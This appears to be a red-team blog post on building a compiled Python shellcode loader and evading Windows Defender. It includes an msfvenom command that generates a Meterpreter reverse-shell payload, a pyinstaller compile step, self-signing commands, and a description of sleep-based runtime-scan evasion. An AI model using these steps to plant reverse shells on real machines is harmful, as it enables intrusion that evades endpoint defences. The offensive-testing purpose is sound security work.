 ```yaml
---
title: "Pythonic Malware: Evading Detection with Compiled Executables"
layout: "post"
categories: "Windows"
tags: ["Evasion"]
---
```


Creating Python executables during an offensive security engagement used to be an effective method of evasion. However, this tactic has become increasingly difficult on modern Windows endpoints.

In fact, even benign programs seem to get blocked immediately after touching disk. This is just one of the reasons red teamers have moved away from popular frameworks such as [Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion) and onto bigger-better things.

This post revisits compiled Python’s use in offensive security testing and shares my experiences launching Meterpreter shells on a fully patched Windows 10 system against Windows Defender.


## Malware Creation

Given my primary focus was on evasion tactics in the compiled executable, I created a simple shellcode loader as my “malware”. The script called common Windows functions such as `VirtualAlloc` & `CreateThread` to inject shellcode locally within the current process.

The payload itself utilized a `reverse_https` connection over port 443 and was generated by MSFVenom, without any encoding or obfuscation techniques:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.157 LPORT=443 -f py
```

At this point, I didn't have much faith in the code and thought it was sure to get detected. However, when attempting to execute the Python script directly, no alerts were triggered and a reverse connection was established.

![](/assets/posts/pythonic-malware-pt1/pm1_1.png)


## Compiling Python

Despite triggering a successful Meterpreter shell, we cant rely on Python being installed on every Windows workstation. Therefore, the next step is to compile the source code — making it executable without needing any additional resources on the host.

Compiling Python is performed using tools like `pyinstaller`, `py2exe`, or `cx_freeze`. These work by wrapping the bytecode version (`.pyc`) of the script and all required dependencies/interpreters into a single `.exe` file:


```bash
pyinstaller --onefile .\shellcode_loader.py
```

Unfortunately, when downloading the newly compiled `shellcode_loader.exe` onto the target system, I didn't get very far before receiving the following alert:

![](/assets/posts/pythonic-malware-pt1/pm1_2.png)


## Evading Detection

### Code Signing

At this point, I thought about potential strategies to avoid detection and looked into signing the executable with a self-signed certificate.

Using the Visual Studio Developer Command Prompt, I executed the following commands to generate a certificate and sign the `shellcode_loader.exe` file.


```bash
>> makecert /r /h 0 /eku "1.3.6.1.5.5.7.3.3,1.3.6.1.4.1.311.10.3.13" /e 12/12/2025 /sv m8.pvk m8.cer
>> pvk2pfx /pvk m8.pvk /spc m8.cer /pfx m8.pfx
>> signtool sign /a /fd SHA256 /f m8.pfx shellcode_loader.exe
```

Now, looking at the file’s properties, “Joe’s-Software-Emporium” was listed under Digital Signature details— (*Microsoft Default*). With that, the executable could be downloaded without detection.

![](/assets/posts/pythonic-malware-pt1/pm1_3.png)


### Sleep Intervals

Although I was able to download the file, Windows Defender still flagged the program when attempting execution. That’s when I remembered reading [F-Secure’s post](https://labs.f-secure.com/blog/bypassing-windows-defender-runtime-scanning/) about evading Windows Defender Runtime Scanning, which provided lots of great takeaways.

In short, I found adding various sleep intervals between the Win32 API calls bypassed runtime scanning and successfully triggered a working reverse shell.

![](/assets/posts/pythonic-malware-pt1/pm1_4.png)


## Conclusion

A compiled Python executable wouldn’t be my first choice in a true red teaming engagement. However, this was a fun proof-of-concept and may prove useful in other areas of offensive security testing.

A final copy of my `shellcode_loader.py` script can be found on [GitHub](https://gist.github.com/m8sec/864c1feb9718e21df06e9bc5bb52f60f).

Thanks for reading!